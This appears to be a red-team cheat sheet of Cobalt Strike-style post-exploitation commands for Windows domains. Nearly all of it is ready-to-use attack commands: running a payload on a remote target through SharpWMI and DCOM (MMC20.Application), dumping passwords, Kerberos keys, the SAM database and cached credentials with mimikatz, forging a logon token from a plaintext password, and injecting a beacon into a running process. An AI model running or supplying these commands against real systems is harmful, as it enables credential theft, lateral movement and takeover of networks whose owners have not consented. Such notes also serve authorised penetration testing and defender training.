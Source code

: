 **CoInitializeSecurity**

If you get... CoInitializeSecurity already called. Thread token (if there is one) may not get used.

```
 execute-assembly C:\Tools\SharpWMI\SharpWMI.exe action=exec computername=<TARGET> command="<PATH TO PAYLOAD ON TARGET>"
```

#### DCOM

```
 powershell-import C:\Tools\Invoke-DCOM.ps1

 powershell Invoke-DCOM -ComputerName <TARGET> -Method MMC20.Application -Command <PATH TO PAYLOAD ON TARGET>

 link <TARGET HOST>
```

#### dump creds

```
# shorthand method
logonpasswords

# full command with mimi
 mimikatz sekurlsa::logonpasswords
 
# Kerberos encryption keys
mimikatz sekurlsa::ekeys
 
# SAM Database
mimikatz lsadump::sam
 
# cached credentials
mimikatz lsadump::cache

```

After dumping these credentials, go to **View > Credentials** to see a copy of them.

The **aes256\_hmac** and **aes128\_hmac** (if available) fields are used with Overpass the Hash

#### Make Token

&#x20;If we have the plaintext password (provided here), we can use `make_token` with that information.

```
make_token <DOMAIN>\<USER> <Password>
```

#### Process injection

```
# List Processes
ps

# inject into target 
inject <PID> <x64/x86> <listener-name>
```
